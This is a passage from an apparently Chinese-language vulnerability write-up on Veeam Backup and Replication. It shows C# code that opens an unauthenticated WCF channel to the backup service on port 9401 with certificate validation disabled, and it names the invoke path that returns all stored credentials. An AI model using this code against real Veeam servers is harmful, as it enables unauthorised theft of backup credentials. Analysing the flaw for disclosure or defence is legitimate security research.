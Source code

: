 image.png

配置文件中可见详细的binding配置 `C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Service.exe.config`

[![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f787f715-4376-f258-8d75-20655c321537.png)](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f787f715-4376-f258-8d75-20655c321537.png "image.png")

image.png

CVbRestoreServiceStub类中可以用.net remoting wcf的形式调用

csharp

```
NetTcpBinding binding = new NetTcpBinding();
NetTcpSecurity netTcpSecurity = new NetTcpSecurity();
netTcpSecurity.Mode = SecurityMode.Transport;
TcpTransportSecurity tcpTransportSecurity = new TcpTransportSecurity();
tcpTransportSecurity.ClientCredentialType = TcpClientCredentialType.None;
netTcpSecurity.Transport = tcpTransportSecurity;
binding.Security = netTcpSecurity;
binding.Name = "NetTcpBinding";
Uri uri = new Uri("net.tcp://172.16.16.153:9401/");
EndpointAddress endpoint = new EndpointAddress(uri, EndpointIdentity.CreateDnsIdentity("Veeam Backup Server Certificate"));
ChannelFactory<IRemoteInvokeService> myChannelFactory = new ChannelFactory<IRemoteInvokeService>(binding, endpoint);
X509ServiceCertificateAuthentication x509ServiceCertificateAuthentication = new X509ServiceCertificateAuthentication();
x509ServiceCertificateAuthentication.CertificateValidationMode = X509CertificateValidationMode.None;
myChannelFactory.Credentials.ServiceCertificate.SslCertificateAuthentication = x509ServiceCertificateAuthentication;
IRemoteInvokeService cVbRestoreServiceStub = myChannelFactory.CreateChannel(endpoint);
```

通过调用cVbRestoreServiceStub对象下的函数即可。该对象有一个invoke函数

[![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/211613c0-d687-eff5-ac46-98948045eb42.png)](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/211613c0-d687-eff5-ac46-98948045eb42.png "image.png")

image.png

在ProcessCommand中做函数请求分发

[![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f000968d-d6d5-990e-3cb7-3727596cef89.png)](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f000968d-d6d5-990e-3cb7-3727596cef89.png "image.png")

image.png

这个功能点太多了，别说泄露凭据，在这出现RCE我都不觉得奇怪。我在这放出来泄露凭据的点吧。

在ExecuteDatabaseManagerCommand中有一个CredentialsDbScopeGetAllCreds的case调用ExecuteCredentialsDbScopeGetAllCreds，顾名思义是拿所有的Creds。

